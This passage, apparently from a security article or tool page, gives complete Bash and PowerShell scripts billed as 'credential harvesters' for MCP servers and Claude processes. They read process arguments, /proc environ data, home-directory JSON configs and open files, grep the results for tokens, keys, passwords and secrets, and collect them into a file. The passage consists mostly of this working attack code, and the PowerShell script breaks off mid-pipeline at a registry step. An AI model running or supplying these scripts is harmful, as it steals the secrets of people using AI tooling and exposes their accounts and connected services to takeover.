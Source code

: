 ## Platform-Specific Harvesting

### Linux: Everything is a File

```bash
#!/bin/bash
# Complete MCP credential harvester for Linux

echo "[*] Harvesting MCP credentials (no root required)..."

# 1. Process arguments
ps aux | grep -E "(mcp|claude)" | grep -vE "(grep|harvester)" > creds.txt

# 2. Environment variables  
for pid in $(pgrep -f mcp); do
    cat /proc/$pid/environ 2>/dev/null | tr '\0' '\n' | \
        grep -E "(TOKEN|KEY|PASS|SECRET)=" >> creds.txt
done

# 3. Config files
find ~ -type f -name "*.json" -path "*claude*" -o -path "*mcp*" \
    -exec grep -l "token\|password\|key" {} \; | \
    xargs cat >> creds.txt 2>/dev/null

# 4. Recently accessed files
lsof -u $USER | grep -E "(mcp|claude)" | awk '{print $9}' | \
    xargs cat 2>/dev/null | grep -E "(token|password|key)" >> creds.txt

echo "[+] Harvested $(wc -l < creds.txt) potential credentials"
```

### Windows: PowerShell Power

```powershell
# Complete MCP credential harvester for Windows

Write-Host "[*] Harvesting MCP credentials (no admin required)..."

# 1. Process command lines via WMI
$creds = @()
Get-WmiObject Win32_Process | Where-Object { 
    $_.CommandLine -match "mcp|claude" 
} | ForEach-Object {
    $creds += $_.CommandLine
}

# 2. Environment variables
Get-Process | Where-Object { $_.ProcessName -match "mcp" } | ForEach-Object {
    $_.StartInfo.EnvironmentVariables.GetEnumerator() | Where-Object {
        $_.Key -match "TOKEN|KEY|PASSWORD|SECRET"
    } | ForEach-Object {
        $creds += "$($_.Key)=$($_.Value)"
    }
}

# 3. Config files
Get-ChildItem -Path $env:USERPROFILE -Recurse -Filter "*.json" -ErrorAction SilentlyContinue |
    Select-String -Pattern "token|password|key|secret" | ForEach-Object {
        $creds += $_.Line
    }

# 4. Registry (MCP might store config here)
Get-ChildItem "HKCU:\Software" -Recurse -ErrorAction SilentlyContinue |
```